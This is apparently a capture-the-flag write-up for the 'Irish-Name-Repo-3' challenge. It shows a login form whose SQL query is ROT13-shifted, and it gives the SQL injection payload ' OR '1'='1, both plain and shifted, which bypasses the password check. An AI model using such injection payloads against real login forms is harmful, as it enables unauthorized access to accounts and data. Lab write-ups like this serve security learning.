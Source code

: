 # Irish-Name-Repo-3

The login form is different from the [Prev](./Irish-Name-Repo-2.md) challenge

On trying to log in:

```text
password: pass
SQL query: SELECT * FROM admin where password = 'cnff'
```

Trying SQL injection:

```text
password: ' OR '1'='1
SQL query: SELECT * FROM admin where password = '' BE '1'='1'
```

Clearly, the alphabetical characters are being shifted, so enter a shifted password:

```text
password: ' BE '1'='1
SQL query: SELECT * FROM admin where password = '' OR '1'='1'
```
